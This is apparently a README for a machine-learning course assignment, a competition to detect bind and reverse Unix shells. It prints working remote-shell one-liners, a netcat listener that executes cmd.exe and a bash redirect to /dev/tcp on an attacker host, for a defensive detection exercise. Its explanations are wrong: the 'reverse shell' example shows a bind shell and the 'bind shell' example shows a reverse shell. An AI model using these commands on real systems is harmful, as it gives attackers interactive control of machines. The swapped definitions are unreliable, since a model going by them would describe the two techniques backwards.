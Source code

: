 # ML_ITMO_lessons
Решение урока №2 курса ML в ИБ

**Overview**
Detecting bind/reverse shells
Welcome to the Bind/Reverse Shell Detection competition! This competition focuses on detecting bind/reverse Unix shells. Your task is to build a machine learning model that can distinguish between regular and bind/reverse shells.

**Goal**
The goal of this competition is to detect bind/reverse shells, which are often used for establishing a link between an attacker and a target machine
Participants will be provided with a dataset of Unix shells labeled as bind/reverse (1) or legitimate (0). Your task is to build a model that predicts the correct label for each domain in the test set.

**Description**
The use of bind or reverse shell is highly scenario-dependent:

**Reverse Shell**: when a target machine is behind a firewall or NAT, making it hard to initiate an inbound connection. The target machine will connect to the attacker's machine in this setup, hence bypassing the firewall restrictions.
This command is run on the target, 192.168.1.100
nc -lvp 4444 -e cmd.exe
This command is run on the attacker, 192.168.1.50
nc 192.168.1.100 4444

**Bind Shell**: applicable when the attacker's machine is able to connect directly to the target machine. In that respect, the target machine is listening to some port for incoming connections, and control is given to the attacking machine upon connection to that port.
This command is run on the attacker, 10.0.0.5
nc -lvnp 443
This command is run on the target, 192.168.1.100
bash -i >& /dev/tcp/10.0.0.5/443 0>&1
